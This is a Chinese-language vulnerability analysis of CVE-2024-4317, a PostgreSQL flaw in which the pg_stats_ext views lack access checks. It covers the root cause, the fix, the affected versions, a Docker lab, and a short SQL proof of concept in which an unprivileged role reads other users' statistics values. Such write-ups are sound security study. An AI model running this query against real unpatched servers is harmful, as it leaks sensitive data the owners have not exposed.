


# CVE-2024-4317 CWE-862 PostgreSQL 信息泄露

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。

## 漏洞原理

PostgreSQL 提供了两个统计相关的内置视图：pg_stats_ext：显示多列统计信息。pg_stats_ext_exprs：显示基于表达式的统计信息。这两个视图的设计初衷是供 数据库管理员（DBA）或优化器调试 使用，但它们在实现上 缺少访问控制检查，使得普通非特权用户 也能查询到这些视图，进而读取到 其他用户创建的统计信息。其中最危险的是 most_common_vals（最常见值） 字段，可能直接泄露：敏感数据列的常见取值（例如邮箱、电话号码、IP 地址）。或基于表达式的统计结果，如果表达式中调用了用户无权限执行的函数，也能间接看到函数执行结果。这就构成了 数据泄露风险。

## 漏洞定位

分析 PostgreSQL 16.0 源码：

在 src/backend/catalog/system_views.sql 文件是 PostgreSQL 初始化模板库（template1）时执行的标准视图定义脚本。用于一次性创建数据库集群中所有系统目录视图（`pg_\*` 视图），供用户和工具以 SQL 接口方式访问系统元数据。

第 **256** 行，创建了 pg_stats_ext 视图，其中第 **308** 行的权限检查是基于列权限的（`has_column_privilege()`），即检查用户是否具有对某些列的 `SELECT` 权限。这会导致非特权用户访问到不该看到的统计数据。

```c
// 308 行 ********** 基于列的权限检查 *********
WHERE NOT EXISTS
              ( SELECT 1
                FROM unnest(stxkeys) k
                     JOIN pg_attribute a
                          ON (a.attrelid = s.stxrelid AND a.attnum = k)
                WHERE NOT has_column_privilege(c.oid, a.attnum, 'select') )
```

第 **295** 行，创建了 pg_stats_ext_exprs 视图，其中第 362 行同样缺乏对授权检查的完善，导致不该看到表达式统计结果的用户也能够访问。

## 漏洞修复


升级到 PostgreSQL 16.3、15.7、14.12，或相应分支中的更高版本。
新的权限检查改为： `pg_has_role(c.relowner, 'USAGE')`,即确保用户是表格的拥有者或拥有**USAGE**权限。 同时,行级安全(.RLS) 检查已经添加:如果表格上启用行级安全,且安全政策是活跃的,用户将无法访问统计数据。

```sql
WHERE pg_has_role(c.relowner, 'USAGE')
    AND (c.relrowsecurity = false OR NOT row_security_active(c.oid));
```

修补逻辑与 `pg_stats_ext` 视图。 确保只使用表格所有者或用户 `USAGE` 权限可以在 `pg_stats_ext_exprs` 视图。

```sql
WHERE pg_has_role(c.relowner, 'USAGE')
    AND (c.relrowsecurity = false OR NOT row_security_active(c.oid));
```

## 影响范围


** 受影响的版本:** PostgreSQL：

- 14.0 改为 14.11

- 15.0 改为 15.6

- 16.0 改为 16.2

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 16.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD    Base Score:4.3 MEDIUM    Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N
CNA:PostgreSQL    Base Score:3.1 LOW    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:16.0:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件。

在 Step 3 中可以看到，从一个非特权用户（`regress_stats_user1`）会话里，成功读到了 `pg_stats_ext` 和 `pg_stats_ext_exprs` 的 `most_common_vals`，其中含有真实数据和表达式结果

```bash
docker exec -it postgres-16.0 psql -U postgres -d test -f CVE-2024-4317-PoC.sql
```



## PoC分析


```sql
CREATE ROLE regress_stats_user1 LOGIN;

CREATE TABLE stats_ext_tbl (id INT PRIMARY KEY GENERATED BY DEFAULT AS IDENTITY, col TEXT);
INSERT INTO stats_ext_tbl (col) VALUES ('secret'), ('secret'), ('very secret');
-- Two types of statistics were established
CREATE STATISTICS s_col ON id, col FROM stats_ext_tbl;
CREATE STATISTICS s_expr ON mod(id, 2), lower(col) FROM stats_ext_tbl;
-- Generate statistical information
ANALYZE stats_ext_tbl;

SET SESSION AUTHORIZATION regress_stats_user1;
SELECT statistics_name, most_common_vals FROM pg_stats_ext x
    WHERE tablename = 'stats_ext_tbl' ORDER BY ROW(x.*);
SELECT statistics_name, most_common_vals FROM pg_stats_ext_exprs x
    WHERE tablename = 'stats_ext_tbl' ORDER BY ROW(x.*);
```

## 参考链接


[NVD - CVE-2024-4317](https://nvd.nist.gov/vuln/detail/CVE-2024-4317)

[Fix privilege checks in pg_stats_ext and pg_stats_ext_exprs. · postgres/postgres@521a715](https://github.com/postgres/postgres/commit/521a7156ab47623e299855dd04a2a4ea3ad71afe#diff-fdfba3a05536a9d07b3fd9aef583605397aea86904c2ddabb181e6a42f0062fa)
